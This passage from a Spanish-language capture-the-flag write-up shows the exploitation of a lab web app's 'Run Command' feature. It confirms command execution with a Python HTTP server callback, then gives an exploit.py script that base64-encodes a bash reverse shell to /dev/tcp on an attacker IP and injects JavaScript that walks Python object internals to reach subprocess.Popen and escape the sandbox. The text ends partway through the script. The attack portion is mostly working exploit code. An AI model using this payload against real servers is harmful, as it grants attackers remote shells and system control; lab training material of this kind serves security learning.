 Con esto en la pagina vamos a probar que realmente se estan ejecutando comandos, por lo que vamos abrir un servidor de `python3`:

```shell
python3 -m http.server 80
```

Y ahora si le damos a `Run Command` veremos esto en la pagina:

```
Error: 'NoneType' object is not callable
```

Pero si volvemos a donde tenemos el servidor de `python3`:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.82 - - [19/Sep/2025 11:09:57] "GET / HTTP/1.1" 200 -
```

Veremos que ha funcionado realmente por detras, por lo que vamos a crear un `exploit` para ejecutarlo y que nos proporcione una `reverse shell` de esta forma:

> exploit.py

```python
import requests
import json

# CONFIGURACIÓN - MODIFICA ESTOS VALORES
TARGET_URL = 'http://<IP>:8000'           # URL del servidor vulnerable
ATTACKER_IP = '<IP_ATTACKER>'             # Tu IP de atacante
ATTACKER_PORT = '<PORT>'                  # Puerto para la reverse shell

# Comando para reverse shell (bash)
reverse_shell_cmd = f'bash -i >& /dev/tcp/{ATTACKER_IP}/{ATTACKER_PORT} 0>&1'

# Codificar en base64 para evitar problemas de comillas
import base64
encoded_cmd = base64.b64encode(reverse_shell_cmd.encode()).decode()
final_cmd = f'echo {encoded_cmd} | base64 -d | bash'

# Código JavaScript que se ejecutará en el servidor
js_code = f"""
var cmd = "{final_cmd}";
var a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__;
var obj = a(a(a, "__class__"), "__base__");

function findpopen(o) {{
    for (var i in o.__subclasses__()) {{
        var item = o.__subclasses__()[i];
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {{
            return item;
        }}
        if (item.__name__ != "type") {{
            var result = findpopen(item);
            if (result) {{
                return result;
            }}
        }}
    }}
    return null;
}}

var popen_class = findpopen(obj);
if (popen_class) {{
    var result = popen_class(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    result;
}} else {{
```